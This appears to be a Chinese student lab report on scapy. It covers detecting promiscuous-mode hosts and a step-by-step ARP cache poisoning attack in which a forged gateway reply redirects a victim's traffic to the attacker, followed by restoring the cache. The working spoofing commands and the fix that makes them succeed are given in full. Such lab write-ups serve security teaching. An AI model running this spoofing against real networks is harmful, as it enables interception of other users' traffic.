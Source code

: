 # 第四章实验报告

## 一、实验目的

熟悉scapy操作，实现简单伪造操作

## 二、实验环境

virtual box

linux-kali

## 三、实验内容

### 拓扑结构

网络中节点基本信息如下：

![手绘节点关系图](img/手绘节点关系图.jpg)

- 攻击者主机：

  08:00:27:0e:34:8d/eth0

  172.16.111.111

- 受害者主机：

  08:00:27:0b:01:6d/eth0

  172.16.111.136

- 网关：

  09:00:27:8a:e8:3d/enp0s9

  172.16.111.1

  

### 实验准备

#### 安装scapy

在攻击者主机上安装scapy

```
sudo apt update && sudo apt install python3 python3-pip

pip3 install scapy[complete]
```



### 实验一：检测局域网中的异常终端



在受害者主机上检查网卡的「混杂模式」是否启用

```
ip link show eth0
```

![检查混杂模式](img/检查混杂模式.jpg)



在攻击者主机上开启scapy

```
sudo scapy
```

![攻击者scapy](img/攻击者scapy.jpg)



在 scapy 的交互式终端输入以下代码回车执行

```
pkt = promiscping("172.16.111.136")
```

![攻击者-pkt](img/攻击者-pkt.jpg)



回到受害者主机上开启网卡的『混杂模式』
上述输出结果里没有出现 PROMISC 字符串
手动开启该网卡的「混杂模式」

```
sudo ip link set eth0 promisc on
```

![手动打开混杂模式](img/手动打开混杂模式.jpg)



再次检查网卡混杂模式是否启用

```
ip link show eth0
```

此时会发现输出结果里多出来了 PROMISC 

![查看混杂模式](img/查看混杂模式.jpg)



回到攻击者主机上的 scapy 交互式终端继续执行命令

```
pkt = promiscping("172.16.111.136")
```

![攻击者-pkt1](img/攻击者-pkt1.jpg)



在受害者主机上手动关闭该网卡的「混杂模式」

```
sudo ip link set eth0 promisc off
```

![受害者-关闭混杂模式](img/受害者-关闭混杂模式.jpg)



### 实验二：手工单步“毒化”目标主机的arp缓存



构造一个 ARP 请求

```
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()
```



![攻击者-构造arp请求](img/攻击者-构造arp请求.jpg)



发送这个 ARP 广播请求

```
recved = srp(arpbroadcast, timeout=2)
```

![攻击者-发送arp广播请求](img/攻击者-发送arp广播请求.jpg)



接下来

伪造网关的 ARP 响应包
准备发送给受害者主机 172.16.111.136
ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址

```
arpspoofed=ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.136", hwdst="08:00:27:0e:34:8d")
```



发送上述伪造的 ARP 响应数据包到受害者主机

```
sendp(arpspoofed)
```

![攻击者-伪造网关arp响应包并发送](img/攻击者-伪造网关arp响应包并发送.jpg)



此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址。（但是实验结果开始并没有，可以通过在构造的arp伪装包前增加Ether（）来解决）

![受害者-arp缓存](img/受害者-arp缓存.jpg)



回到攻击者主机上的 scapy 交互式终端继续执行命令。

恢复受害者主机的 ARP 缓存记录
伪装网关给受害者发送 ARP 响应

```
restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="09:00:27:8a:e8:3d", pdst="172.16.111.136", hwdst="08:00:27:0b:01:6d")
sendp(restorepkt1, count=100, inter=0.2)
```

![攻击者-伪装网关](img/攻击者-伪装网关.jpg)



此时在受害者主机上准备“刷新”网关 ARP 记录。

在受害者主机上尝试 ping 网关

```
ping 172.16.111.1
```

静候几秒 ARP 缓存刷新成功，退出 ping
查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录

```
ip neigh
```

![正常网关arp](img/正常网关arp.jpg)



## 四、实验问题及解决方法

攻击者发送伪造arp响应时，受害者arp缓存不更新，虽然显示伪装包发送，但可能并未成功。

![受害者-arp缓存(未更新)](img/受害者-arp缓存(未更新).jpg)



可以通过在构造的arp伪装包前增加Ether（）来解决

![问题1-伪装指令](img/问题1-伪装指令.jpg)



## 五、参考资料

- [实验指南](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html)